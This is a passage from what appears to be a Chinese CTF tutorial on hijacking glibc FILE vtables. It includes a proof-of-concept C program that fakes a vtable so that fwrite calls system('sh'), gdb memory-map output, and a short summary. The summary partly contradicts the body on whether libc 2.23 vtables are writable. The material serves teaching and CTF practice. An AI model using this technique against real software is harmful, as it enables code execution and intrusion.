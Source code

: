 ```c
#define system_ptr 0x7ffff7a52390;

int main(void)
{
    FILE *fp;
    long long *vtable_addr,*fake_vtable;

    fp=fopen("123.txt","rw");
    fake_vtable=malloc(0x40);

    vtable_addr=(long long *)((long long)fp+0xd8);     //vtable offset

    vtable_addr[0]=(long long)fake_vtable;

    memcpy(fp,"sh",3);

    fake_vtable[7]=system_ptr; //xsputn

    fwrite("hi",2,1,fp);
}
```

我们首先分配一款内存来存放**伪造的 vtable，之后修改 _IO_FILE_plus 的 vtable 指针指向这块内存**。因为 vtable 中的指针我们放置的是 system 函数的地址，因此需要传递参数 "/bin/sh" 或 "sh"。

**因为 vtable 中的函数调用时会把对应的 \_IO_FILE_plus 指针作为第一个参数传递，因此这里我们把 "sh" 写入 _IO_FILE_plus 头部**。之后对 fwrite 的调用就会经过我们伪造的 vtable 执行 system("sh")。

同样，如果程序中不存在 fopen 等函数创建的 \_IO_FILE 时，也可以选择 stdin\stdout\stderr 等位于 libc.so 中的 _IO_FILE ，这些流在 printf\scanf 等函数中就会被使用到。在 libc2.23 之前，这些 vtable 是可以写入并且不存在其他检测的。

```
print &_IO_2_1_stdin_
$2 = (struct _IO_FILE_plus *) 0x7ffff7dd18e0 <_IO_2_1_stdin_>

0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
```

### 小结

* vtable 劫持分为两种：
  * 直接改写 vtable 中的虚函数指针
  * 覆盖 vtable 的指针（伪造 vtabel）
* libc2.23 版本下，位于 libc 数据段的 vtable 是不可以进行写入
* vtable 中的函数调用时会把对应的 \_IO_FILE_plus 指针作为第一个参数传递，可以将 sh 或其他参数写入 _IO_FILE_plus 头部

### 例题

#### 2018 HCTF the_end


[^1]: 用 fwrite 等这种流 I/O 函数写入写出，数据会先放在缓冲区，并没有真正输入或者输出，需要用 fflush 冲洗流中信息才完成写入写出。避免用 fflush 冲洗就用 setbuf 函数关闭缓冲（pwn 题初始化必备）